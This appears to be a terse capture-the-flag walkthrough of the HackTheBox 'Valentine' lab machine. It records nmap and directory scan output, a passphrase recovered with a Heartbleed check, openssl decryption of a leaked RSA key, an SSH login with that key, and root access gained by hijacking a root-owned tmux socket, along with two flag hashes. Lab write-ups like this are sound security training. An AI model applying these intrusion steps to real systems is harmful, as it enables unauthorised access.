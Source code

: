 **IPv4: 10.129.234.147**

## Enumeration/Scanning
sudo nmap -sV -sC -O -v -Pn 10.129.234.147

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian
80/tcp  open  http     Apache httpd 2.2.22
443/tcp open  ssl/http Apache httpd 2.2.22

valentine.htb

/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/decode               (Status: 200) [Size: 552]
/dev                  (Status: 301) [Size: 314] [--> http://10.129.234.147/dev/]
/encode               (Status: 200) [Size: 554]
/index                (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 38]
/server-status        (Status: 403) [Size: 295]

notes file
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.

openssl_heartbleed gives me $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
probably rsa pass
heartbleedbelievethehype

hype_key file
using cyberchef to decrypt hex I get an RSA file

I can use openssl to decrypt it
openssl rsa -in hype_key -out decrypted_key
heartbleedbelievethehype as rsa pass

ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -i decrypted hype@10.129.234.147

577e8898d511045977d739745acf3eef

priv esc

check bash history

/.devs/dev_sess
setuid root binary

run tmux -S /.devs/dev_sess as seen in history

get root 

d02795304563775682bda4dd361ae770

## Exploitation


## Privilege Escalation


## Post-exploitation


